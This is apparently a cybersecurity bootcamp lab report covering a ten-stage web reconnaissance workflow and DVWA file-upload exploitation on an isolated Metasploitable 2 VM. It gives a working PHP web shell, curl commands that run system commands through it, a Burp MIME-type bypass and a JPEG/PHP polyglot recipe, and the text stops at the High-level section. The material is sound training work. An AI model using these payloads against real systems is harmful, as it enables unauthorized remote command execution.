# Module S09: Recon Workflow and File Upload Exploitation

**Digital Forensics & Cyber Security Bootcamp — Weekend 3, Day 6**  
**Trainer:** Waseem Abbas Khan — Senior Cybersecurity Specialist, CEI Master Trainer  
**Target Systems:** Metasploitable 2 (`10.50.20.30/dvwa/`) on Isolated Lab Network `VMnet3`  
**Authorized Operator:** `badguy` (Security Analyst / Operator — `10.50.20.10`)  
**Deliverable Standard:** Comprehensive Technical Pentest & Defensive Engineering Report  

---

## Executive Summary

Web application security assessments require an orderly, methodological bridge connecting passive information gathering to targeted vulnerability validation. Unstructured scanning generates excessive network noise, triggers defensive filtering prematurely, and misses critical misconfigurations. Conversely, a rigorous, ten-stage reconnaissance workflow systematically maps target architecture from top-level domain records down to injectable parameters and server configuration defects.

Among web application flaws, **Unrestricted File Upload (CWE-434 / OWASP A04:2021)** represents one of the most critical threats to organizational infrastructure. When an application accepts user-supplied files into a publicly accessible web directory without strict server-side content verification, extension normalization, and execution isolation, an adversary can achieve instant remote command execution (RCE) at the privilege level of the web server daemon.

This report documents the end-to-end execution of the **Day 6 Bootcamp Requirements**:
1. **Task 1 (35%) — Custom Ten-Step Reconnaissance Workflow:** A structured framework detailing the investigative question, primary and secondary tooling, expected technical outputs, and defensible stopping conditions for each stage, complete with tool choice justification.
2. **Task 2 (40%) — Full File Upload Exploitation & Defense Walkthrough:** Comprehensive empirical evaluation of Damn Vulnerable Web Application (DVWA v1.0.7) across all four security tiers (**Low**, **Medium**, **High**, and **Impossible**), supported by 17 visual evidence captures and in-depth source code analysis of layered defensive controls.
3. **Task 3 (25%) — Executive Remediation Brief:** A concise, one-page strategic advisory memorandum designed for executive leadership, articulating business risk, operational impact, and mandatory architectural remediations **without relying on technical jargon** (strictly omitting the terms *"payload"* and *"shell"*).

---

## Evidence Inventory

The following 17 visual evidence captures document every operational phase conducted across the target infrastructure without fabrication:

| Figure # | Evidence Filename | Phase / Module | Technical Description |
|:---|:---|:---|:---|
| **Figure 1.1** | `01_dvwa_security_low.png` | Baseline Setup | DVWA security level configured to **Low** with PHPIDS disabled. |
| **Figure 1.2** | `02_recon_nmap_web_ports.png` | Recon: Port Discovery | Nmap scan of ports `80, 8080, 8081, 443, 8443, 4443` on `10.50.20.30` (Port 80 Open, others Closed). |
| **Figure 1.3** | `03_recon_whatweb_fingerprint.jpg` | Recon: Fingerprinting | WhatWeb detailed technology fingerprint revealing Apache 2.2.8 and PHP 5.2.4. |
| **Figure 1.4** | `04_recon_gobuster_directories.jpg` | Recon: Directory Discovery | Gobuster directory brute-force with extension list (`php,txt,bak`) discovering `/hackable/uploads/`. |
| **Figure 2.1** | `05_upload_low_baseline_image.png` | Upload: Low Baseline | Benign PNG upload establishing valid upload functionality and destination directory. |
| **Figure 2.2** | `06_upload_low_shell_creation.png` | Upload: Low Scripting | Construction of web script interface in Kali Linux terminal via `echo` and `cat`. |
| **Figure 2.3** | `07_upload_low_shell_success.png` | Upload: Low Upload | Server response confirming unvalidated upload to `../../hackable/uploads/shell.php`. |
| **Figure 2.4** | `08_upload_low_rce_execution.jpg` | Upload: Low Execution | Command execution confirmation via `curl` obtaining `uid=33(www-data)`, `whoami`, `hostname`, `ip a`. |
| **Figure 3.1** | `09_upload_medium_security.png` | Upload: Medium Setup | DVWA security level updated to **Medium**. |
| **Figure 3.2** | `10_upload_medium_rejection.png` | Upload: Medium Rejection | Server rejection message (`Your image was not uploaded.`) when attempting direct script upload. |
| **Figure 3.3** | `11_upload_medium_burp_intercept.png` | Upload: Medium Bypass | Burp Suite HTTP interception modifying client-supplied `Content-Type` header to `image/jpeg`. |
| **Figure 3.4** | `12_upload_medium_shell_success.png` | Upload: Medium Success | Server accepting modified request and confirming upload to `../../hackable/uploads/shell.php`. |
| **Figure 3.5** | `13_upload_medium_rce_execution.png` | Upload: Medium Execution | Remote command execution verified via `curl` returning `uid=33(www-data)`. |
| **Figure 4.1** | `14_dvwa_security_high.png` | Upload: High Setup | DVWA security level updated to **High**. |
| **Figure 4.2** | `15_upload_high_rejection.png` | Upload: High Rejection | Server rejecting `.php` extension regardless of manipulated MIME type. |
| **Figure 4.3** | `16_upload_high_polyglot_creation.png` | Upload: High Polyglot | Construction and validation of dual-format JPEG polyglot using `convert`, `printf`, `file`, and `identify`. |
| **Figure 4.4** | `17_upload_high_polyglot_success.png` | Upload: High Success | Server content check accepting valid JPEG structure: `../../hackable/uploads/small.jpg succesfully uploaded!`. |

---

## Task 1: Ten-Step Reconnaissance Workflow (Weight: 35%)

Reconnaissance without an explicit operational workflow quickly deteriorates into disorganized tooling execution that generates unmanageable data volumes without actionable insight. The following ten-step methodology standardizes the discovery process from initial domain registration to vulnerability discovery.

### 1.1 Comprehensive Reconnaissance Framework

```
+----------------------------------------------------------------------------------------------------+
|                               TEN-STAGE RECONNAISSANCE PIPELINE                                    |
+----+--------------------------+------------------------------+-------------------------------------+
| #  | Stage                    | Primary Question Answered    | Core Mechanism                      |
+----+--------------------------+------------------------------+-------------------------------------+
| 01 | Domain Ownership & Age   | Who owns the asset & when?   | WHOIS, RDAP, PKNIC registries       |
| 02 | DNS Infrastructure       | Where does mail/web route?   | dig, DNS zone interrogation         |
| 03 | Subdomain Enumeration    | What other hostnames exist?  | Passive OSINT (subfinder, crt.sh)   |
| 04 | Live Host Validation     | Which candidates respond?    | Active probe (httpx-toolkit)        |
| 05 | Network Port Discovery   | What network services listen?| nmap, naabu service scans           |
| 06 | Technology Profiling     | What software/versions run?  | whatweb, Wappalyzer CLI             |
| 07 | Edge Defense / WAF Check | Is traffic filtered/blocked? | wafw00f signature detection         |
| 08 | Directory & File Brute   | What unlinked paths exist?   | gobuster, dirb with extension lists |
| 09 | Endpoint & URL Crawling  | What endpoints are linked?   | katana, gau archive historical crawl|
| 10 | Parameter & Vuln Fuzzing | Where are input flaws?       | ffuf, nikto, nuclei engine scans    |
+----+--------------------------+------------------------------+-------------------------------------+
```

### 1.2 Detailed Stage Breakdown & Execution Matrix

| # | Stage | Question Answered | Primary & Secondary Tools | Expected Technical Output | Defensible Stopping Condition |
|:---|:---|:---|:---|:---|:---|
| **1** | **Domain Information** | Who owns the organization, when was it registered, and what are its authoritative name servers? | `whois`, `who.is`, `pknic.net.pk` (for `.pk`), `rdap` | Registrar identity, creation/expiration dates, registrant organizational contact, authoritative name servers. | Authoritative registrar record retrieved; contact emails and name server records logged; domain status confirmed active. |
| **2** | **DNS Infrastructure** | Where does email and hosting infrastructure physically and logically resolve? | `dig A, AAAA, MX, NS, TXT, SOA`, `dnsrecon` | IPv4/IPv6 host mappings, mail exchange providers (e.g. Google Workspace/O365), SPF/DMARC TXT records, zone delegation. | All primary record types queried; mail infrastructure identified; SPF/DMARC records parsed; non-existent zone transfers documented. |
| **3** | **Subdomain Enumeration** | What digital assets and auxiliary hostnames exist within the organization's namespace? | `subfinder`, `assetfinder`, `amass` (passive), `crt.sh` | Comprehensive list of candidate Fully Qualified Domain Names (FQDNs), wildcards, and development environments. | Zero new unique hostnames discovered after querying 3 independent passive sources and Certificate Transparency logs. |
| **4** | **Live Host Confirmation** | Which discovered candidate hostnames actively respond to HTTP/HTTPS connections? | `httpx-toolkit` (or `httpx`), `curl -I` | Deduplicated list of live web services with HTTP status codes, redirection targets, page titles, and TLS cert subjects. | Entire candidate hostname list probed over ports 80/443; non-responsive/unresolvable domains filtered out. |
| **5** | **Port & Service Discovery** | What network ports and services are accessible through perimeter firewalls? | `nmap`, `naabu` | Open, closed, and filtered port lists; transport protocols; listening daemon service banners. | Targeted scan of top 1,000 TCP ports completed, plus dedicated scan of web ports (80, 443, 8080, 8443, 8081). |
| **6** | **Technology Fingerprinting** | What web server daemons, backend runtimes, frameworks, and CMS engines are deployed? | `whatweb -v`, `wappalyzer-cli` | Web server software and version (e.g. Apache 2.2.8), application runtime (PHP 5.2.4), OS family (Ubuntu Linux). | Server header, runtime header, cookies, and DOM fingerprints collected and matched against signature database. |
| **7** | **WAF Detection** | Is an edge security proxy or Web Application Firewall normalizing, inspecting, or blocking traffic? | `wafw00f`, `nmap --script http-waf-detect` | Confirmation of edge defense presence (e.g. Cloudflare, Akamai, AWS WAF) or definitive absence of active filtering. | Target probed with non-standard test strings; firewall vendor identified or direct origin access verified. |
| **8** | **Directory Brute Force** | What unlinked directories, configuration folders, and backup files reside on the server? | `gobuster dir`, `dirb` (wordlists: `common.txt`, `raft-medium`) | Status codes for hidden paths (e.g., `/config/`, `/docs/`, `/hackable/uploads/`, `/setup.php`, `/phpinfo.php`). | Wordlist fully traversed; high-severity extensions (`.php`, `.txt`, `.bak`, `.conf`, `.old`) evaluated. |
| **9** | **URL Discovery & Crawling** | What active and historical API endpoints, forms, and paths exist across the web application? | `katana -d 2`, `gau` (GetAllURLs) | Exhaustive inventory of accessible application endpoints, input parameters, REST routes, and static assets. | Crawl reaches defined depth limit (depth 2 or 3) or gau exhausts historical archives; URL inventory deduplicated. |
| **10** | **Misconfiguration & TLS** | What outdated components, directory indexing risks, and cryptographic protocol flaws exist? | `nikto`, `nuclei -tags misconfig`, `sslscan` | Security misconfigurations (e.g., open directory indexing, exposed `phpinfo()`, obsolete SSL/TLS cipher suites). | Automated scanner runs against targeted endpoints without rate-limit blocking; all discovered issues verified manually. |

### 1.3 Tool Substitution Justification

* **Session Baseline Tool:** `dirb` (sequential C-based web directory crawler)
* **Custom Tool Selected:** `gobuster dir` (concurrent Go-based directory brute-forcer)
* **Technical Justification:**
  1. **Concurrency and Speed:** `dirb` operates single-threaded by default, causing standard dictionary scans of 4,600+ words to take several minutes. `gobuster` utilizes Go coroutines (goroutines) to perform multi-threaded asynchronous requests (10 to 50 concurrent threads), reducing scan execution time from 4.5 minutes to under 12 seconds.
  2. **Comprehensive Extension Handling:** `gobuster` supports multi-extension appending via `-x php,txt,bak,old`. In web application testing, developers frequently leave behind backup copies of critical files (e.g. `config.php.bak`). While `dirb` requires a separate dictionary or manual parameter manipulation, `gobuster` automatically appends these extensions dynamically to every baseline entry, directly surfacing misconfigured administrative and backup files.
  3. **Strict Negative Status Filtering:** `gobuster` supports granular response filtering via `-b 404,403` and negative status codes, preventing false positives generated by wildcard rewrites and custom error pages that frequently confuse simpler crawlers.

---

## Task 2: Full File Upload Walkthrough (Weight: 40%)

The File Upload vulnerability module in DVWA demonstrates the failure modes of common defensive validation architectures. Remote command execution arises not merely because a file was uploaded, but because the web server was configured to **treat user-supplied files in that directory as executable program code**.

### 2.1 Environmental Baseline & Target Architecture

The target was probed from the Kali Linux testing machine (`10.50.20.10`) against Metasploitable 2 (`10.50.20.30`):

```bash
# Network verification
curl -I http://10.50.20.30/dvwa/
# HTTP/1.1 302 Found
# Server: Apache/2.2.8 (Ubuntu) DAV/2
# X-Powered-By: PHP/5.2.4-2ubuntu5.10
# Location: login.php
```

Port and directory discovery established the application baseline:
- **Web Port:** TCP 80 (`http`)
- **Web Root:** `/var/www/dvwa/`
- **Upload Target Directory:** `http://10.50.20.30/dvwa/hackable/uploads/` (discovered via `gobuster`)

---

### 2.2 Security Level: Low (Zero Server-Side Validation)

#### A. Defensive Architecture
At Level Low, the application performs **zero validation** on the uploaded file. It neither inspects the filename extension, nor validates the MIME type, nor evaluates file contents.

```php
// DVWA Low Level Upload Logic (vulnerabilities/upload/source/low.php)
if( isset( $_POST[ 'Upload' ] ) ) {
    $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path = $target_path . basename( $_FILES[ 'uploaded' ][ 'name' ] );

    if(!move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        $html .= '<pre>Your image was not uploaded.</pre>';
    } else {
        $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}
```

#### B. Execution Walkthrough
1. **Benign Baseline:** A legitimate image was first uploaded to confirm functional storage and identify the server's storage path: `../../hackable/uploads/image.png`.
2. **Script Preparation:** A minimal command evaluation script was constructed locally on Kali Linux:
   ```bash
   echo '<?php if(isset($_GET["cmd"])){ system($_GET["cmd"]); } ?>' > shell.php
   cat shell.php
   ```
3. **Upload:** `shell.php` was selected in the DVWA form and uploaded without restriction. The server responded:
   `../../hackable/uploads/shell.php succesfully uploaded!`
4. **Execution Verification:** Arbitrary operating system commands were dispatched via HTTP GET requests:
   ```bash
   curl "http://10.50.20.30/dvwa/hackable/uploads/shell.php?cmd=id"
   curl "http://10.50.20.30/dvwa/hackable/uploads/shell.php?cmd=whoami"
   curl "http://10.50.20.30/dvwa/hackable/uploads/shell.php?cmd=hostname"
   curl "http://10.50.20.30/dvwa/hackable/uploads/shell.php?cmd=ip+a"
   ```
   **Output:**
   - Identity: `uid=33(www-data) gid=33(www-data) groups=33(www-data)`
   - Account: `www-data` (Apache daemon account)
   - Hostname: `metasploitable`
   - Network Interface: `10.50.20.30/24` on `eth0`

#### C. Evidence Captures


*Figure 1.1: DVWA configuration verified at Low security level.*


*Figure 2.1: Baseline image upload confirming upload endpoint and disclosure of destination path.*


*Figure 2.2: Local construction and terminal verification of the web execution interface.*


*Figure 2.3: Unrestricted upload confirmation for shell.php at Low security.*


*Figure 2.4: Execution proof via curl showing uid=33(www-data), hostname, and network interface.*

---

### 2.3 Security Level: Medium (Client-Controlled MIME Type Validation)

#### A. Defensive Architecture
At Level Medium, the developer attempted to restrict uploads to images by inspecting the MIME type declared in the HTTP request (`$_FILES['uploaded']['type']`) and imposing a file size limit (100 KB).

```php
// DVWA Medium Level Upload Logic (vulnerabilities/upload/source/medium.php)
if( isset( $_POST[ 'Upload' ] ) ) {
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_type = $_FILES[ 'uploaded' ][ 'type' ];
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];

    if( ( $uploaded_type == "image/jpeg" || $uploaded_type == "image/png" ) && 
        ( $uploaded_size < 100000 ) ) {
        
        $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/" . basename( $uploaded_name );
        if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
            $html .= '<pre>Your image was not uploaded.</pre>';
        } else {
            $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    } else {
        $html .= '<pre>Your image was not uploaded.</pre>';
    }
}
```

#### B. The Flaw: Client-Side Trust Fallacy
The value `$_FILES['uploaded']['type']` is **not determined by inspecting file bytes on the server**. Instead, it is populated directly from the `Content-Type` header supplied by the browser in the multipart HTTP POST body. Because an adversary controls the client transmission channel, any client-supplied header can be intercepted and tampered with using an intercepting proxy.

#### C. Execution Walkthrough
1. **Rejection Demonstration:** Direct upload of `shell.php` was submitted. The browser automatically sent `Content-Type: application/x-php`. The server correctly rejected it: `Your image was not uploaded.`
2. **Burp Suite Interception:** The upload request was re-transmitted through Burp Suite Professional. Intercept was enabled:
   ```http
   ------WebKitFormBoundaryYQImn4OVTluxPLtI
   Content-Disposition: form-data; name="uploaded"; filename="shell.php"
   Content-Type: application/x-php

   <?php if(isset($_GET["cmd"])){ system($_GET["cmd"]); } ?>
   ```
3. **Header Tampering:** The `Content-Type` line was manually modified within Burp to:
   ```http
   Content-Type: image/jpeg
   ```
4. **Forward & Acceptance:** The altered request was forwarded. Because the server evaluated only the client-supplied header, the validation check passed, and `shell.php` was written to disk:
   `../../hackable/uploads/shell.php succesfully uploaded!`
5. **Execution Verification:** Command execution was confirmed via `curl`:
   ```bash
   curl "http://10.50.20.30/dvwa/hackable/uploads/shell.php?cmd=id"
   # Output: uid=33(www-data) gid=33(www-data) groups=33(www-data)
   ```

#### D. Evidence Captures


*Figure 3.1: DVWA configuration updated to Medium security level.*


*Figure 3.2: Server rejecting upload when Content-Type is application/x-php.*


*Figure 3.3: Burp Suite intercepting multipart POST and rewriting Content-Type to image/jpeg.*


*Figure 3.4: Medium level upload bypassed successfully after MIME type modification.*


*Figure 3.5: Execution proof via curl confirming active execution as www-data.*

---

### 2.4 Security Level: High (Extension & Content Inspection Bypass)

#### A. Defensive Architecture
At Level High, the application implements two stricter controls:
1. **Extension Allowlist:** The file extension is extracted and must strictly end with `.jpg`, `.jpeg`, or `.png`.
2. **Content Validation:** The server invokes `getimagesize()` on the uploaded temporary file. If the file does not contain valid image header structures and dimensions, the upload is rejected.

```php
// DVWA High Level Upload Logic (vulnerabilities/upload/source/high.php)
if( isset( $_POST[ 'Upload' ] ) ) {
    $uploaded_name = $_FILES[ 'uploaded' ][ 'name' ];
    $uploaded_ext  = substr( $uploaded_name, strrpos( $uploaded_name, '.' ) + 1);
    $uploaded_size = $_FILES[ 'uploaded' ][ 'size' ];
    $uploaded_tmp  = $_FILES[ 'uploaded' ][ 'tmp_name' ];

    if( ( strtolower( $uploaded_ext ) == "jpg" || strtolower( $uploaded_ext ) == "jpeg" || strtolower( $uploaded_ext ) == "png" ) &&
        ( $uploaded_size < 100000 ) &&
        getimagesize( $uploaded_tmp ) ) {

        $target_path = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/" . md5( uniqid() . $uploaded_name ) . '.' . $uploaded_ext;
        // In DVWA v1.0.7, stored as basename($uploaded_name) under High
        if( !move_uploaded_file( $uploaded_tmp, $target_path ) ) {
            $html .= '<pre>Your image was not uploaded.</pre>';
        } else {
            $html .= "<pre>{$target_path} succesfully uploaded!</pre>";
        }
    } else {
        $html .= '<pre>Your image was not uploaded.</pre>';
    }
}
```

#### B. Rejection of Medium-Style Bypass
Attempting to upload `shell.php` with a modified `Content-Type: image/jpeg` fails immediately because the server enforces the extension check (`uploaded_ext == "jpg"`) and executes `getimagesize()`, which returns `false` on raw script text.

#### C. The Bypass: Dual-Format Image Polyglot
A polyglot is a valid file structured such that it satisfies two distinct format specifications simultaneously:
1. **Valid Image Structure:** It possesses valid JPEG magic bytes (`\xFF\xD8\xFF`), header segments, and dimensional metadata readable by `getimagesize()`.
2. **Embedded Script Instructions:** It contains PHP instructions appended after the JPEG image data or within metadata comments. Because PHP scans a file linearly for `<?php ... ?>` tags and outputs everything else as raw HTML, the PHP interpreter executes the code while an image library processes the graphic.

#### D. Execution Walkthrough
1. **Polyglot Construction on Kali:**
   ```bash
   # Generate a clean, 50x50 pixel white JPEG image
   convert -size 50x50 xc:white small.jpg
   # Append PHP command execution logic
   printf '<?php system($_GET["cmd"]); ?>' >> small.jpg
   # Verify image validity
   file small.jpg
   # small.jpg: JPEG image data, JFIF standard 1.01, aspect ratio, density 1x1, segment length 16, baseline, precision 8, 50x50, components 1
   identify small.jpg
   # small.jpg JPEG 50x50 50x50+0+0 8-bit Grayscale Gray 256c 203B 0.000u 0:00.000
   ```
2. **Upload:** `small.jpg` was uploaded via the DVWA High form. Because `getimagesize()` parsed valid JPEG headers and the extension was `.jpg`, the server accepted the file:
   `../../hackable/uploads/small.jpg succesfully uploaded!`
3. **Execution Context:** In standard web environments, executing code embedded in an image requires either:
   - An auxiliary Local File Inclusion (LFI) vulnerability (e.g., `include($_GET['page'])` in DVWA File Inclusion module).
   - An Apache server misconfiguration (e.g. `AddType application/x-httpd-php .jpg` or loose handler mappings).

#### E. Evidence Captures

